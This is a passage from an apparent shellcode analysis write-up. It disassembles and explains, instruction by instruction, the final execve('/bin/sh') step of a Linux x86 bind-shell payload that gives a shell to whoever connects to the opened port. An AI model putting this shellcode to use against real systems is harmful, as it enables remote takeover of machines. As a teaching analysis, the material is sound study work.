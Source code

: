 ### execve() ###
```nasm
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
<p style="text-align: justify;">The last syscall will be execve(), which will run /bin/sh after connecting to the listening port</p>
- Pushing value "//sh" on the stack (reverse order)
```nasm
0000003A  682F2F7368        push dword 0x68732f2f
```
- Pushing value "/bin" on the stack (reverse order)
```nasm
0000003F  682F62696E        push dword 0x6e69622f
```
- We transfer the top of the stack address to the EBX registry
```nasm
00000044  89E3              mov ebx,esp
```
- String terminator (null)
```nasm
00000046  50                push eax
```
- Pushing previous stack pointer 
```nasm
00000047  53                push ebx
```
- Setting new stack pointer pointing our arguments
```nasm
00000048  89E1              mov ecx,esp
```
- Moving 11 (value of execve() syscall) to EAX
```nasm
0000004A  B00B              mov al,0xb
```
- Syscall execution
```nasm
0000004C  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

<p style="text-align: justify;">That's all! The port is opened, and after connecting to it we get the /bin/sh shell.</p>

### Pwned. ###

------------------------------------------------------------------------------------------------------------------------
